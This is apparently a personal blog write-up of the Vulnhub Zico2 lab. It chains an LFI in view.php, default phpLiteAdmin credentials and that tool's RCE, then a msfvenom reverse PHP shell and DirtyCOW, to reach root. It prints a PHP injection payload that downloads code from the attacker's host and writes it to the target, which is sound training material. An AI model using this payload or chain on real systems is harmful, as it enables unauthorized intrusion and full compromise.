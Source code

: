 ```yaml
---
layout: post
title: Vulnhub Zico 2
---
```

In this week, I´ve done another vulnhub machine, in this case [Zico2](https://www.vulnhub.com/entry/zico2-1,210/). In my opinion, it was easier than previous machines, both intrusion and privilege escalation steps. As it´s shown below, the host has two main services running, a SSH service and a web application:

![evidence1]({{ site.baseurl }}/images/zico2_01.png)

Analyzing the web application, a LFI vulnerability could be found in "page" HTTP GET parameter of "view.php":

![evidence2]({{ site.baseurl }}/images/zico2_02.png)

This vulnerability along with default credentials on phpLiteAdmin service (located in the web application in "http://192.168.10.17/dbadmin/") and a [RCE vulnerability in 1.9.3 version of that DBMS](https://www.exploit-db.com/exploits/24044/), could allow us inject and execute PHP code on remote host. Inside of the DBMS, you can find other database called "test_users" with MD5 hashes of "root" and "zico" users (however, once it was decrypted with online resources such us crackstation.net, these credentials were not valid). 
First of all, I created a PHP payload with msfvenom. Due to a problems with meterpreter payload, I used a more simple PHP shell payload, "php/reverse_php":

![evidence3]({{ site.baseurl }}/images/zico2_03.png)

Once it was done, I needed to upload the exploit. To do this, first of all I created a new database, called "hack.php", with only one table and one field. The PHP injection is executed in the default value of the field, that in our case was the next one:

```
<?php function dl($u, $o){$c = file_get_contents($u);file_put_contents($o, $c);}dl("http://192.168.10.12/zico.txt", realpath(realpath(dirname(__FILE__))) . "/zico.php")?>
```
![evidence4]({{ site.baseurl }}/images/zico2_04.png)

For this phase, I tried to use other techniques to upload the file, for example, using the PHP function ["passthru"](http://www.hackingwithphp.com/4/12/0/executing-external-programs) and operative systems commands such "nc" or "wget" but it didn´t work fine. It was strange because using passthru is possible to execute other commands (such "find", "cat" and so on). Anyway, the exploit was correctly uploaded in "/usr/databases" folder, the next step was configuring the handler of metasploit to serve the reverse connection, and the execution through LFI vulnerability of the PHP reverse exploit:

![evidence5]({{ site.baseurl }}/images/zico2_05.png)

Got a more stable shell was impossible, I don't know the reason, so I needed to use the RCE vulnerability again in order to upload DirtyCOW exploit and to compile it. Finally, executing the binary was enough to got a user ("firefart") with root privileges:

![evidence6]({{ site.baseurl }}/images/zico2_08.png)

![evidence7]({{ site.baseurl }}/images/zico2_09.png)
